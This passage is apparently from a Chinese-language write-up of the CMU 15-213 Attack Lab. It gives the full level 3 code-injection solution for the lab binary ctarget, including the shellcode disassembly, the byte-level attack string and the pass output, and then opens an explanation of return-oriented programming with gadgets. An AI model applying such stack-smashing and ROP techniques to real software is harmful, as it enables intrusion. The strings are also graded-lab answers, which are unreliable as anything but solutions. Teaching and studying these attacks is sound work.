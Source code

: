 ```
gcc -c attack.l3.s -o attack.l3.o
objdump -d attack.l3.o

attack.l3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   68 fa 18 40 00          push   $0x4018fa
   5:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   c:   c3                      ret
```

对应的攻击代码字节序列（13 字节）为：

```
68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3
```

最终的攻击字符串字节序列为：攻击代码字节序列+27 个任意字符+攻击代码地址+Cookie 字符串：

```
68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过 hex2raw 生成攻击字符串，并进行测试：

```
./hex2raw < ctarget.l3.txt > attack.l3.txt
./ctarget -i attack.l3.txt -q
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### Return-Oriented Progamming Attacks

在程序 RTARGET 中执行代码注入攻击（Code Injection Attacks）比在 CTARGET 中要难的多，因此 RTARGET 使用了以下两种技术去抵抗这种攻击：

- 使用栈随机化机制，使得每次运行时栈的起始位置均随机，那么代码注入的返回地址就**无法确定**。
- 将栈标记为不可执行，即便是我们成功地返回到攻击代码处，程序也会因为段错误（Segmentation Fault）而终止执行。

ROP 攻击策略不同于 CI 攻击，我们需要识别已存在的程序代码中包含一条或多条指令最后跟着一个 ret 指令的字节序列，这样的代码片段称为 **_gadget_**。

可以通过设计，执行一串 gadget 代码，完成特定的攻击效果：
